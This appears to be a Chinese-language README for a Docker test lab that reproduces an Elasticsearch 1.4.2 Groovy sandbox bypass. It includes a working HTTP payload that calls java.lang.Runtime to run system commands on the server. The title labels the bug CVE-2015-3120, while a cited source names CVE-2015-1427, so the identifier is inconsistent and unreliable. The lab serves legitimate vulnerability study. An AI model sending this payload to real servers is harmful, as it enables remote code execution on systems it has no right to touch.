

# ElasticSearch Groovy 沙盒绕过 && 命令执行漏洞（CVE-2015-3120）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.2

## 原理

参考文章：

- http://cb.drops.wiki/drops/papers-5107.html
- http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
- https://github.com/XiphosResearch/exploits


CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞是一个沙盒绕过，利用本漏洞即可执行任意系统命令。

## 漏洞测试

编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

